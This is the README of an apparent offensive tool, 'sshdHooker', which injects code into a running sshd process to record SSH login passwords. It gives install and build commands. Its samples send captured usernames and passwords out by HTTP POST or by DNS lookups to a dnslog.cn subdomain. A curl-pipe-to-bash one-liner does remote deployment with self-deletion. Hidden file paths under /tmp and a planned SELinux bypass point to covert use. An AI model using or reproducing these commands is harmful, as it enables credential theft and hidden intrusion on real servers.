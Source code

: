 # what's this?

SSHD injector, and then you can record passwords or do other operations.

Need to close selinux

English | [中文文档](readme_cn.md)

# how to use

## auto installer
anto installer，Only temporarily supports x64

Run:
```
bash install.sh
```

Login with ssh password after running，The password record address is /tmp/.password.txt. default evil so path is /tmp/hello.so，default injector path is/tmp/.i


Other parameters:
```
    -e   custom so file path，default is /tmp/hello.so
    -o   custom injector path，default is /tmp/.i.
    -m   change mode,defulat is 0, mode is 0 is to output to the file，output path is /tmp/.password.txt ，mode is 1 is to command execution mode
    -p   change payload，defsult is /tmp/.password.txt,if mode is 1，then use snsprintf to format the command and execute,Make sure the command contains both %s for format username and password
    -d   anto delete,If the value is anyone, any password is captured and deleted.Otherwise, it will be deleted after matching the entered username.
    -l   Specify the libc path. The default addressing is to find libc-xxxx.so and libc.so.x, but it does not rule out that there will be other strange libc names, so the manual specification function is added. For details, please check /proc/pid Find the libc name in /maps
```
## samples

https send password
```
bash install.sh -p "curl -X POST -d 'username=%s\&password=%s' http://127.0.0.1" -m 1
```

dns send password and self-delete
```
bash install.sh -p 'ping `echo %s-%s|xxd -ps`.k9lovy.dnslog.cn -c 1' -m 1 -d anyone
```

Fast remote automatic deployment and self-delete for If any user login succeeds
```
curl -L https://github.com/9bie/sshdHooker/releases/download/1.0.2/sshdHooker.sh | bash -s -- -d anyone
```

## debug

use
```

gcc -shared inject_got.c -ldl -fPIC -o test2.so -std=c99

mv test2.so /tmp/hello.so

gcc sshdHooker.c shellcode.s -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```


# todo

 - add x86/arm support
 - bypass SELINUX